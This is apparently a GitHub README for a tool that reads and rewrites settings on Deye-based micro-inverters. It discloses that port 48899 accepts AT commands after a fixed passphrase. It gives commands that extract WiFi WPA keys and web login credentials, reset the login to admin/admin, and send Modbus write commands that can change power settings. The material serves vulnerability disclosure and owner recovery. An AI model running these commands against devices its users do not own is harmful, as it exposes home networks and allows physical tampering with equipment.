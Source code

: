 # deye-logger-at-cmd

## Credentials lost?
Have you forgotten your credentials and want to reset them? You've come to the right place.

Only use this tool for devices you own!

- Download release from https://github.com/s10l/deye-logger-at-cmd/releases
- Open a terminal window and browse to downloaded file
- Run the command below, but change the ip to the ip of the inverter
(Go) `main -t 192.168.0.20:48899 -xat AT+WEBU=admin,admin` or
(Python) `python3 main.py -t 192.168.0.20:48899 -xat AT+WEBU=admin,admin` 
- Try to login with username: **admin** and password: **admin**
- Voila, but rember to do this only with devices you own!

## Updates
> Update 2023-02-13: Got feedback from users that Deye is now rolling out the update automatically. Please make sure that your device is registered in Solarman or update it manually (offline).

> Update 2023-01-11: Please send a request to Deye to update your inverter firmware at least to 1.53. After the update you where able to change WiFi mode and credentials.

Deye based micro inverters use a built-in WLAN module for quick configuration.

The WLAN module works in AP+STA mode, i.e. it starts an access point and is able to connect to another access point at the same time.

Unfortunately, after configuration, neither the inverter's own access point can be disabled, nor can the default password of `12345678` be changed.

So the hurdle to connect to the inverter's own access point is very low.

In addition to the web based configuration, which can be protected by username and password, it is possible to configure the micro inverter via AT commands on port `48899`. For this purpose, a fixed passphrase `WIFIKIT-214028-READ` is used which in principle cannot be changed since it is already used in iOS and Android apps of the ?manufacturer?.

On the one hand, it is possible to access the inverter, i.e. to enter the operator's own WLAN network.

### TL;DR
This tool reads settings for WLAN (incl. connected SSID and WPA key) as well as web login credentials from the logger.

## Supported Devices

Currently, the deye microinverters are affected by this. Also known under other brands like Bosswerk or Turbo Energy. If your device is also affected, please let me know.

## Dependencies

- Golang is required to build

## Usage

Simply type `main` to print the help

`main`

To read out the settings please type the following

`main -t <ip of the logger>:48899`

If you are interested in what is happening here, you can get the communication output

`main -t <ip of the logger>:48899 -xv`

Example output

```
2022/11/01 10:08:25 * Connecting :0 -> <Inverters IP>:48899...
2022/11/01 10:08:25 > WIFIKIT-214028-READ
2022/11/01 10:08:26 < <Inverters IP>,<Inverters MAC>,<Inverters MID>
2022/11/01 10:08:26 > +ok
2022/11/01 10:08:27 > AT+WAP
2022/11/01 10:08:28 < +ok=11BGN,AP_<Inverters MID>,CH1
2022/11/01 10:08:28 > AT+WAKEY
2022/11/01 10:08:29 < +ok=WPA2PSK,AES,12345678
2022/11/01 10:08:29 > AT+WSSSID
2022/11/01 10:08:30 < +ok=<Your SSID>
2022/11/01 10:08:30 > AT+WSKEY
2022/11/01 10:08:31 < +ok=WPA2PSK,AES,<Your WPA key>
2022/11/01 10:08:31 > AT+WANN
2022/11/01 10:08:32 < +ok=DHCP,<Inverters IP>,<Inverters Sbunet>,<Inverters GW>
2022/11/01 10:08:32 > AT+WEBU
2022/11/01 10:08:33 < +ok=<Your configured username>,<Your configured password>
2022/11/01 10:08:33 > AT+Q
2022/11/01 10:08:34 AP settings
2022/11/01 10:08:34     Mode, SSID and Chanel:  11BGN,AP_AP_<Inverters MID>,CH1
2022/11/01 10:08:34     Encryption:             WPA2PSK,AES,12345678
2022/11/01 10:08:34 Station settings
2022/11/01 10:08:34     SSID:                   <Your SSID>
2022/11/01 10:08:34     Key:                    WPA2PSK,AES,<Your WPA key>
2022/11/01 10:08:34     IP:                     DHCP,<Inverters IP>,<Inverters Sbunet>,<Inverters GW>
2022/11/01 10:08:34 Web settings
2022/11/01 10:08:34     Login:                  <Your configured username>,<Your configured password>
```

### Sending AT-Commands

`main -t <ip of the logger>:48899 -xat <at command>`

Example
```
main -t <ip of the logger>:48899 -xat AT+WEBVER
2022/11/11 12:37:51 * Connecting :0 -> <ip of the logger>:48899...
2022/11/11 12:37:54 +ok=V1.0.24
```

### Sending ModBus read command

`main -t <ip of the logger>:48899 -xmb <Start_Register+Length>`

So with a start register address of 0012 and a length of 0001 only one register is read.

```
main -t <ip of the logger>:48899 -xmb 00120001
2022/11/11 12:39:26 * Connecting :0 -> <ip of the logger>:48899...
2022/11/11 12:39:29 +ok=01030204017B44
```

Explanation
```
01      is the slave id
03      is the function code (read)
02      is the length of the payload (2 bytes)
0401    is the playload, i that case 04 is the number of MPPT and 01 is number of ac phases (you need to know how to interpret the register.)
7B44    is the crc16
```

### Sending ModBus write command

> You may damage or destroy the device or other equipment and seriously injure or kill yourself or others. Be warned herewith.

`main -t <ip of the logger>:48899 -xmbw <Start_Register+Length+Value_Length+Value>`

```
main -t <ip of the logger>:48899 -xmbw 00280001020064
2022/11/11 12:39:26 * Connecting :0 -> <ip of the logger>:48899...
2022/11/11 12:39:29 +ok=01100028000181C1
```

Explanation of -xmbw
```
0028    is the start address            (Active power regulation)
0001    is the number of registers      (1)
02      is the length of the value      (2 bytes)
0064    is the value                    (0x0064 -> 100)
```

## Structure of commands

### Read commands

```
DATAGRAM	:= ATCMD + MODBUSLEN + SEPERATOR + MODBUSMSG + MODBUSCRC + NEWLINE
ATCMD		:= AT+INVDATA=
MODBUSLEN	:= len(MODBUSMSG + MODBUSCRC)
MODBUSCRC	:= crc(MODBUSMSG)
SEPERATOR	:= ,
MODBUSMSG	:= SLAVE + FCODE + STARTADDR + REGSIZE
SLAVE		:= 01
FCODE		:= 03
STARTADDR	:= FFFF
REGSIZE		:= 0001
VALUELEN   	:= len(VALUE)
VALUE		:= 0000
NEWLINE     := \n
```

### Write commands
```
DATAGRAM	:= ATCMD + MODBUSLEN + SEPERATOR + MODBUSMSG + MODBUSCRC + NEWLINE
ATCMD		:= AT+INVDATA=
MODBUSLEN	:= len(MODBUSMSG + MODBUSCRC)
MODBUSCRC	:= crc(MODBUSMSG)
SEPERATOR	:= ,
MODBUSMSG	:= SLAVE + FCODE + STARTADDR + REGSIZE + VALUELEN + VALUE
SLAVE		:= 01
FCODE		:= 10
STARTADDR	:= FFFF
REGSIZE		:= 0001
VALUELEN   	:= len(VALUE)
VALUE		:= 0000
NEWLINE     := \n
```
